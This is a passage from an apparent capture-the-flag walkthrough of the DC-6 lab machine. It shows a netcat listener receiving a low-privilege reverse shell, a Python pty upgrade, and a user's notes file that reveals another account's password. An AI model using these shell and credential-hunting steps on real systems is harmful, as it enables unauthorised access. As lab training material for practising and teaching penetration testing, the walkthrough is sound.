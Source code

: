![](/assets/images/dc6/screenshot-5.png)

We have obtained a shell with low privileges.

```bash
root@kali:~$ nc -vlnp 443              
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.187] 38106
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@dc-6:/var/www/html/wp-admin$
```

Listing mark's home directory, graham's password was found in a note.

```bash
www-data@dc-6:/home/mark$ ls
ls
stuff
www-data@dc-6:/home/mark$ cat stuff/things-to-do.txt
cat stuff/things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
www-data@dc-6:/home/mark$
```
